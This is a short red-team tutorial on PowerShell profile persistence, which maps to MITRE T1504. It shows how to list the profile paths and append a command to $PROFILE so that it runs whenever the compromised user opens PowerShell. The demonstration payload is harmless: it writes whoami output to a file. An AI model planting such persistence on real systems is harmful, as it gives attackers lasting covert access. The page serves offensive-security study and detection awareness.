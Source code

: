 ```yaml
---
layout: post
title: "powershell profile persistence"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /powershell-profile-persistence/
---
```


---
layout: post
title: "powershell profile persistence"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /powershell-profile-persistence/
---

# Powershell Profile Persistence

It's possible to use powershell profiles for persistence and/or privilege escalation.

## Execution

There are four places you can abuse the powershell profile, depending on the privileges you have:

```csharp
$PROFILE | select *
```

![](<../../.gitbook/assets/image (219).png>)

Let's add the code to a `$profile` variable (that expands to the current user's profile file) that will get executed the next time the compromised user launches a powershell console:

{% code title="attacker@target" %}
```csharp
echo "whoami > c:\temp\whoami.txt" > $PROFILE
cat $PROFILE
```
{% endcode %}

![](<../../.gitbook/assets/image (215).png>)

Once the compromised user launches powershell, our code gets executed:

![](<../../.gitbook/assets/image (218).png>)

{% hint style="warning" %}
If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

## References

{% embed url="https://attack.mitre.org/techniques/T1504/" %}
@spotheplanet
